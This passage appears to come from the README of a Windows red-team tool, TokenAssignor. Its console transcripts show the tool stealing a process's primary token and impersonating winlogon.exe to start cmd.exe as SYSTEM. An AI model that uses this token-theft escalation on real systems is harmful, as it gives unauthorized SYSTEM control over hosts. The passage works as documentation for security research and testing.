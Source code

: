 When set `-m` option to `1`, this tool tries to create a suspended process and update the primary token to a stolen token.
This method cannot be used for changing Session ID due to kernel restriction.
Kernel forces token's Session ID to be matched with Session ID for `_EPROCESS`:

```
PS C:\Dev> whoami /user

USER INFORMATION
----------------

User Name            SID
==================== =============================================
desktop-5ohmobj\user S-1-5-21-1955100404-698441589-1496171011-1001
PS C:\Dev> .\TokenAssignor.exe -p 688 -m 1

[+] SeDebugPrivilege is enabled successfully.
[+] SeImpersonatePrivilege is enabled successfully.
[+] Got a primary token from PID 688 (Handle = 0x2C8).
[+] Got a impersonation token from winlogon.exe (Handle = 0x2D8).
[+] Impersonation as winlogon.exe is successful.
[+] Suspended "C:\Windows\system32\cmd.exe" is executed successfully (PID = 9968).
[*] Current user of the suspended process is DESKTOP-5OHMOBJ\user (SID: S-1-5-21-1955100404-698441589-1496171011-1001)
[+] Primary token for the suspended process is updated successfully.
[*] Current user of the suspended process is NT AUTHORITY\SYSTEM (SID: S-1-5-18)
[*] Resuming the suspended process.
Microsoft Windows [Version 10.0.22631.2428]
(c) Microsoft Corporation. All rights reserved.

C:\Dev>whoami /user

USER INFORMATION
----------------

User Name           SID
=================== ========
nt authority\system S-1-5-18
```

If set `-m` option is set to `2`, creates a new token assigned process with Secondary Logon Service:

```
PS C:\Dev> whoami /user

USER INFORMATION
----------------

User Name            SID
==================== =============================================
desktop-5ohmobj\user S-1-5-21-1955100404-698441589-1496171011-1001
PS C:\Dev> .\TokenAssignor.exe -p 688 -m 2

[+] SeDebugPrivilege is enabled successfully.
[+] SeImpersonatePrivilege is enabled successfully.
[+] Got a primary token from PID 688 (Handle = 0x2C4).
[+] "C:\Windows\system32\cmd.exe" is executed successfully (PID = 5832).
[*] User of the created process is NT AUTHORITY\SYSTEM (SID: S-1-5-18)

PS C:\Dev>

Microsoft Windows [Version 10.0.22631.2428]
(c) Microsoft Corporation. All rights reserved.

```
